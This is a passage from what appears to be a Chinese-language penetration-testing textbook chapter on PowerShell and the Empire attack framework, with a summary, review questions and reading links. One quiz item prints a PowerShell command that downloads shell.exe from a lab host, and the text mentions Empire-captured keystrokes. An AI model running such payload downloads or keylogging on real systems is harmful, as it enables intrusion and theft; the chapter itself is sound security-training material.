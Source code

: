 图 9.27 – 帝国代理发送的捕获键击

就像我们配置监听器和 stagers 时一样，我们有一些可选设置，也有一些是必需的，Empire 会尽力提前为你配置好。任务代理之前，请仔细审查可用选项。

在现代 Windows 企业环境中，PowerShell 是我们可用的终极“就地作业”工具，而 Empire 框架则能使你在评估中成为一名“忍者”。如果你跟随这些实验，你已经打下了更深入探索的基础，那么赶快打开目标虚拟机，试试新技巧吧。我们将在后期利用 Empire 进行后渗透工作，敬请期待。

# 总结

在本章中，我们从两个角度探索了 PowerShell。首先，我们将 PowerShell 作为一个交互式任务管理命令行工具和脚本语言进行介绍。然后，我们利用 PowerShell Empire 攻击框架中构建的 PowerShell 脚本，展示了攻击 Windows 机器时的潜力。最终，我们学习了如何利用 Windows 机器上的立足点，使用内置功能为攻击的后期阶段做准备。

本章节的介绍是特权提升和持久性的理想过渡，我们将在此基础上将我们的立足点转变为完全的特权入侵，并为长期保持访问权限铺平道路。现在，我们将跳入下一个章节，介绍 Shell 编程，并快速学习如何操作栈。

# 问题

请回答以下问题，测试你对本章内容的掌握情况：

1.  **ls**、**dir** 和 PowerShell 的 _____ 提供相同的功能。

1.  **[Convert]::ToString($number, 2)** 对 **$number** 变量做了什么操作？

1.  在 PowerShell 中，我们使用 ____ 来筛选结果。

1.  以下命令将创建 **c:\shell** 目录并将 **shell.exe** 写入该目录 (正确 | 错误)：

    (New-Object System.Net.WebClient).DownloadFile("http://10.10.0.2/shell.exe", "c:\shell\shell.exe")

1.  在配置 HTTPS 监听器时，可以使用 **cert.sh** 脚本来防止目标浏览器显示证书警告。(正确 | 错误)

# 深入阅读

要了解本章所涉及的主题的更多信息，请查看以下资源：

+   Empire 项目在 GitHub 上: [`github.com/EmpireProject/Empire`](https://github.com/EmpireProject/Empire)

+   Microsoft Virtual Academy: PowerShell 培训课程: [`mva.microsoft.com/training-topics/powershell#!lang=1033`](https://mva.microsoft.com/training-topics/powershell#!lang=1033)
